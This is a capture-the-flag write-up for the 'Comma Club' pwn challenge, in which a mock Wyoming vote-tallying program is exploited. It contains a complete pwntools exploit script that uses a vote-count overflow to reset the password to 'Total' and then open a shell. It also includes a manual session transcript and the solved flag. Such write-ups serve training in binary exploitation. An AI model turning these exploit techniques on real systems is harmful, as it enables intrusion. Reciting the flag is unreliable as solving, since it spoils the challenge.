 Comma Club
=====================================================

## Info
* Category: pwn
* Point: 500 --> 100
* Description: 
    * We need somone to run our vote tallying machine, and it needs to be someone trustworthy. Apparently there's some problem if a candidate gets too many votes. Shouldn't be a problem for us in Wyoming though.
    * [handout](../handout/)
```
nc comma-club.chal.hackthe.vote 1337
```

## Solution
[Full writeup in CTFtime](https://ctftime.org/writeup/39635)  
Here is final exploit:
```
from pwn import *
from binascii import *
PATH = './challenge'
ADDR = 'comma-club.chal.hackthe.vote'
PORT = 1337
elf = context.binary = ELF(PATH)
context.log_level = 'debug'
####
#r = remote(ADDR, PORT)
####
r = process(PATH)
####
# context.terminal = ['wt.exe','wsl.exe']
# r = gdb.debug(args=[elf.path])
###
r.recvuntil(b'> ')
r.sendline(b'1') #add vote option
votes = 1000009
reminder = votes % 584056
reps = votes//584056
for i in range(reps):
    r.recvuntil(b'> ')
    r.sendline(b'1') #select candidate
    r.recvuntil(b'> ')
    r.sendline(b'584056') #add votes
r.recvuntil(b'> ')
r.sendline(b'1')
r.recvuntil(b'> ')
r.sendline(str(reminder).encode()) #add rest of votes
r.recvuntil(b'> ')
r.sendline(b'3') #quit
r.recvuntil(b'> ')
r.sendline(b'2') #print votes
r.recvuntil(b'> ')
r.sendline(b'3') #end vote
r.recvuntil(b'> ')
r.sendline(b'Total') #password
r.interactive() #shell
```
Also program can be exploited like this:
```
Welcome to the Wyoming Vote Tallying Software
Presented by Jeff!
Please select an option:
1) Enter votes for a candidate
2) View current vote totals
3) Close voting and display the winner (requires password)
4) Change password (requires password)
> 1
Select a candidate to add votes to, or 3 to return
1): Wilfred J Lewis
2): Jeanette D Westcott
> 1
Enter the votes to add
> 500009
Select a candidate to add votes to, or 3 to return
1): Wilfred J Lewis
2): Jeanette D Westcott
> 1
Enter the votes to add
> 500000
Select a candidate to add votes to, or 3 to return
1): Wilfred J Lewis
2): Jeanette D Westcott
> 3
Please select an option:
1) Enter votes for a candidate
2) View current vote totals
3) Close voting and display the winner (requires password)
4) Change password (requires password)
> 2
password change sucessful.

Candidate cannot have more votes than the population of Wyoming (584057).
Resetting vote count to 0.
**********************************************************************
* Candidate: Wilfred J Lewis - S                                     *
* Vote Tally:               0                                        *
* [                                                      ] (  0.00%) *
*                                                                    *
**********************************************************************

**********************************************************************
* Candidate: Jeanette D Westcott - T                                 *
* Vote Tally:               0                                        *
* [                                                      ] (  0.00%) *
*                                                                    *
**********************************************************************

Please select an option:
1) Enter votes for a candidate
2) View current vote totals
3) Close voting and display the winner (requires password)
4) Change password (requires password)
> 3
Please enter the password
> Total
Correct!
Voting is now closed! The winner is Wilfred J Lewis with 0 votes!
This program will now exit.
cat flag
flag{w3lc0me_2_TH3_2_c0mm4_c1ub}
```
--> Flag: `flag{w3lc0me_2_TH3_2_c0mm4_c1ub}`